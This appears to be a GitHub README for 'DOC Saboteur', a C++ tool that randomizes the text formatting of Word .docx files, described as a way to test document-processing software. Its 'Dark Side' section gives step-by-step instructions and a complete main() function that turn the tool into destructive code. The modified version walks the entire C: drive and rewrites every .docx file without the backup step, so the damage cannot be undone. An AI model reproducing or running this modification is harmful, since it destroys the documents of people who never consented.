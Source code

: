 # DOC Saboteur

## Introduction

DOC Saboteur is a fun and practical tool specifically designed for randomizing the formatting properties of Word documents (*.docx), including font size, font color, bolding, and italicizing. This tool is perfect for developers who need to test the fault tolerance of document processing software to various formats, or for any user interested in randomizing Word document formats.

## Features

- **Format Property Randomization**: Automatically scans all Word documents (*.docx) in the program root directory (or specified directory) and randomizes the text formatting of each file.
- **File Processing**:
  - **Non-support for Chinese filenames**: The program will automatically detect Chinese filenames and rename them to non-Chinese strings to ensure error-free processing.
  - **Automatic Backup**: Before any modifications, automatically backs up the original file to the `doc_saboteur_backup` directory on the C drive to ensure data safety.

## User Guide

1. Place Word documents (*.docx) in the program root directory (default configuration).
2. Run the DOC Saboteur program.
3. The program will automatically scan all Word documents in the root directory and process them with format randomization.
4. After processing, you can find the modified documents in the program root directory.
5. Original files will be safely backed up to the `doc_saboteur_backup` directory on the C drive.

## Precautions

1. Ensure that the `doc_saboteur_backup` directory on the C drive exists and has enough space to store backup files.
2. The program currently does not support directly processing documents with Chinese filenames but will automatically rename them.
3. When using this program, ensure you have sufficient permissions to access and modify files in the specified directory.

## Code Compilation Environment
**System Environment**: `Windows10-x64`; `Visual Studio 2022`; `C++17`;

**Required Libraries**: `Pugixml`; `libzip`; `zlib`;

## Dark Side
You only need to modify two lines of code in the `main()` function to turn it into a very malicious program.
1. Modify the code `std::vector<std::string> file_list = op.find_docx_files("./");`, where `"./"` represents the program's root directory. You can change it to a disk drive, such as `C:/`, so the program will traverse and corrupt all `*.docx` files under the C drive.
2. Comment out `if (op.copy_file(*iter, "C:/doc_saboteur_backup/" + *iter) == true)`, this line of code is used to back up the document to `C:/doc_saboteur_backup/` before corrupting it. If commented out, the program will not back up the document, making the damage to your documents irreversible!!!

#### Below is an example:

```c++
int main() {
    std::cout << "DOC Saboteur - v0.1;\nPowered by RMSHE - 2024.03.15;\n" << std::endl;

    try {
        std::vector<std::string> file_list = op.find_docx_files("C:/");
        for (auto iter = file_list.begin(); iter != file_list.end(); ++iter) {
                std::filesystem::path _docxPath_ = op.renameIfChinese(*iter);

                // Convert to std::string
                std::string docxPathString = _docxPath_.string();

                // Get const char* type
                const char *docxPath = docxPathString.c_str();
                const char *docXmlPath = "word/document.xml";

                std::cout << docxPath << std::endl;

                std::string xmlContent = op.readZipFile(docxPath, docXmlPath);

                // Randomization processing
                std::string modifiedXml = randomizeFontPropertiesEnhanced(xmlContent);
                op.writeZipFile(docxPath, docXmlPath, modifiedXml);

                std::cout << "Document processed: " + *iter << std::endl;
            }
    } catch (const std::exception &e) {
        std::cerr << "An error occurred: " << e.what() << std::endl;

        system("pause");
        return 1;
    }

    system("pause");
    return 0;
}
```